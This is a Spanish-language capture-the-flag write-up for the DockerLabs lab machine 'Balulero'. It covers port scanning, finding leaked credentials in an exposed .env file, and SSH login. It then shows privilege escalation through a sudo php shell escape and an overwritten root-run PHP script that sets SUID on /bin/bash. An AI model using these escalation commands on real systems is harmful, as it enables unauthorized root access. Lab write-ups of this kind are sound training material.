 # BALULERO - DOCKERLABS

## INFORMACIÓN Y DESPLIEGUE DE LA MÁQUINA

Esta máquina es de [DockerLabs](https://dockerlabs.es)

Para descargarla vas a [DockerLabs](https://dockerlabs.es) y buscas la máquina Balulero. Abres el enlace de mega, descargas el zip, lo descomprimes y ejecutas `bash ./auto_deploy.sh ./balulero.tar`. De esta forma se ejecutará el contendor de docker de la máquina.

### descripción

- Dificultad: fácil
- Sistema Operativo: linux
- Autor: El Pingüino de Mario

## ESQUEMA

![balulero](https://github.com/user-attachments/assets/4fa0321a-4df7-48cd-9f0c-fea9848c469a)

## RECONOCIMIENTO DE RED

### conectividad y SO

Primero comprobamos la conectividad con la máquina:

```python
ping -c 1 172.17.0.2
```

![image](https://github.com/user-attachments/assets/67f5c042-7e8b-4101-9d38-254fc4196c9b)

Nos llega respuesta con TTL 64, así que el sistema operativo será Linux.

### puertos y servicios

Hacemos un escaneo de todo el rango de puertos por TCP con nmap:

```python
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG tcp_ports
```

> `-p-`: todo el rango de puertos

> `--open`: solo reportar los puertos abiertos

> `-sS`: usar el método de escaneo SYN, que es más sigiloso y rápido que el normal. Requiere privilegios a nivel de sistema para enviar raw packets

> `--min-rate 5000` enviar como mínimo 5000 paquetes por segundo

> `-vvv` triple verbose. Nada más descubrir un puerto lo muestra por pantalla, también muestra más información de lo normal sobre el escaneo

> `-n` no hacer resolución DNS

> `-Pn` no hacer host discovery

> `-oG tcp_ports` exportar el output en formato grepeable al archivo `tcp_ports`

![image](https://github.com/user-attachments/assets/c652206a-34c4-4d42-8ed7-88ead7f5466c)

#### puertos abiertos

**22 - TCP - SSH**

**80 - TCP - HTTP**

Ahora sobre estos dos puertos hacemos otro escaneo de versiones y servicios con nmap:

```python
nmap -p22,80 -sCV 172.17.0.2 -oN targeted
```

> `-p22,80` hacer el escaneo solo sobre estos dos puertos

> `-sCV` lanzar escaneo de versiones y scripts estándar de reconocimiento

> `-oN targeted` exportar el output al archivo `targeted`, en formato nmap

![image](https://github.com/user-attachments/assets/a11a81f9-859d-4c58-904a-d2594f01f00d)

## RECONOCIMIENTO WEB

![image](https://github.com/user-attachments/assets/518eff4f-baa4-463d-9584-32155a4c5e3c)

Dentro de la web a simple vista no hay nada interesante. Al inspeccionar el código HTML al final se puede ver un archivo javascript:

![image](https://github.com/user-attachments/assets/5f24701b-2980-4cb5-9602-56b90546a664)

Dentro de este archivo, en el código hay una línea que nos da información:

![image](https://github.com/user-attachments/assets/f738d7cf-cd50-4bd4-a7ed-097967f39cfc)

## INTRUSIÓN

Si probamos a cargar el archivo .env_de_baluchingon vemos unas credenciales:

![image](https://github.com/user-attachments/assets/9cd6c7cf-83b0-4d73-9a32-9bd85b09a304)

Ahora para conectarnos ejecutamos `ssh balu@172.17.0.2` y de contraseña "balubalulerobalulei".

## ESCALADA DE PRIVILEGIOS

### chocolate

Siendo el usuario balu, si ejecutamos `sudo -l` vemos que tenemos estos privilegios:

![image](https://github.com/user-attachments/assets/7dc6b9c1-184c-413f-aa46-5fc8d657148d)

Podemos ejecutar como el usuario chocolate el binario `/usr/bin/php`. Así que para ejecutar una bash como este usuario hacemos:

```python
sudo -u chocolate php -r 'system("bash");'
```

![image](https://github.com/user-attachments/assets/6f79ff47-a824-4a17-9c84-fca988c83d27)

### root

Siendo el usuario chocolate, no encontramos forma de escalar, ni buscando archivos SUID, abusando de sudo, o de grupos. Podemos probar a descargar [pspy](https://github.com/DominicBreuker/pspy) para ver que procesos y comandos se están ejecutando. Una vez descargado le damos permisos de ejecución (`chmod +x ./pspy64`) y lo ejecutamos:

![image](https://github.com/user-attachments/assets/e6a44058-ff25-4cb0-9106-356142ae7170)

Vemos que en un momento se ejecuta `php /opt/script.php` por el usuario con UID 0 (root). Si hacemos `ls -l /opt/script.php` vemos que chocolate es el propietario del archivo y tiene permisos de escritura:

![image](https://github.com/user-attachments/assets/761cb46a-cc94-4010-ad4b-f9fd361009ca)

Así que cambiamos el contenido del archivo para que cada vez que se ejecute se intente darle privilegios SUID a la bash:

```python
echo -e "<?php\n\tsystem('chmod u+s /bin/bash');\n?>" > /opt/script.php
```

Y si esperamos unos segundos y hacemos `ls -l /bin/bash`:

![image](https://github.com/user-attachments/assets/a2e5eaef-3d0d-4a3a-92c6-bc612463b811)

Ahora tiene permisos SUID, por lo que hacemos `bash -p` para ganar una bash como root:

![image](https://github.com/user-attachments/assets/ed38fdd5-5a85-4522-914d-a38680356c55)